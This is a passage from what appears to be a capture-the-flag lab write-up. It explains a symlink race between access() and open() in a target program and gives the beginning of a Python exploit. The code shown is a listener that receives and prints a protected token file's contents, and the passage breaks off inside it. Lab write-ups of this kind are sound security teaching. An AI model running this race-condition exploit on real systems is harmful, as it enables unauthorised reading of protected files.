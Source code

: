 So we are going to exploit the fact that we can change the target of a symbolic (or static) link between the `access()` and `open()` system call! The fact that
the `connect()` system call is between the both makes it even more simple, because usually, `connect()` needs some time to finish.

My exploit is written in Python. I guess you could create a much simpler version in some lines of shell code (like using netcat). But sometimes it's also important
to write your own socket programs to exercise a bit.

	:::python
	#!/usr/bin/python

	import os
	import socket
	import threading
	import subprocess
	import time
	import sys
	import signal

	ip = '192.168.56.101'

	def run_server():
		pid = os.getpid()
		try:
			address = (ip, 18211)
			print('[i] About to run server on {}'.format(address))
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
			s.bind(address)
			s.listen(5)
			
			while True:
				conn, address = s.accept()
				t = threading.Thread(target=handle_connection, args=(conn, address, pid))
				t.start()

		except KeyboardInterrupt:
			if s:
				s.close()
			sys.exit('Pressed Ctrl-C. Exiting...')

	def handle_connection(conn, address, serverpid):
		print('Incoming connection from {}'.format(address))
		# wait a second before receiving data
		time.sleep(1)
		banner = conn.recv(1024)	
		print(banner)

		token_contents = conn.recv(1024)
		print(token_contents)

		if token_contents.strip():
			os.kill(serverpid, signal.SIGKILL)
		